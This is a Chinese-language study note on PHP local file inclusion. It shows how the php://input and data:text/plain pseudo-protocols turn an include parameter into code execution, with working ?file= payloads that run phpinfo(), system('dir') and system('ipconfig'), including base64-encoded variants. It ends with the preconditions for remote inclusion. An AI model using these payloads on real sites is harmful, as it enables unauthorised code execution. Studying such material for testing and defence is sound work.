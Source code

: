 ### 1.5、伪协议代码执行

**伪协议详见专篇《php中的伪协议》**

#### 伪协议php://input

#### 条件

```php
php <5.0 ，allow_url_include=Off 情况下也可以用

php > 5.0，只有在allow_url_fopen=On 时才能使用
```

#### 作用

可以访问请求的原始数据的只读流，在**POST**请求中访问POST的data部分，在enctype="multipart/form-data"的时候php://input是无效的。该POST请求会将请求的数据作为PHP代码执行。

```php
?file=php://input
POST data：<?php phpinfo();?>
```

#### 伪协议data:text/plain

**前提**：需要allow_url_fopen、allow_url_include 都开启

**注意**：php语句在【;】已经结束，后面的【?>】可以去除，不影响原意。base64加密后带有加号的语句无法执行。

```php
?file=data:text/plain,<?php%20system("dir");?>
?file=data:text/plain;base64,PD9waHAgc3lzdGVtKCJkaXIiKTs/Pg==
?file=data:text/plain,<?php%20system("ipconfig");
?file=data:text/plain;base64,PD9waHAgc3lzdGVtKCJpcGNvbmZpZyIpOw==
<?php phpinfo();?>直接执行可以，但base64编码后无法执行，与编码后的格式中带有【+】有关
去除?>后发现可以执行。
?file=data:text/plain;base64,PD9waHAgcGhwaW5mbygpOw==
```

![image-20240225221359976](../../../Git/NOTE/渗透学习笔记/SQL注入/image-20240225221359976.png)

## 2、远程文件包含

### 2.1、文件包含

#### 前提条件：

```php
php.ini中allow_url_include和allow_url_fopen为On。

需要一台公网服务器上存放被包含的文件
```

![前提.png](http://secevery.oss-cn-beijing.aliyuncs.com/images/article/2021/7/25/1629885223965.png?x-oss-process=style/ImageWaterMark_V1.0)
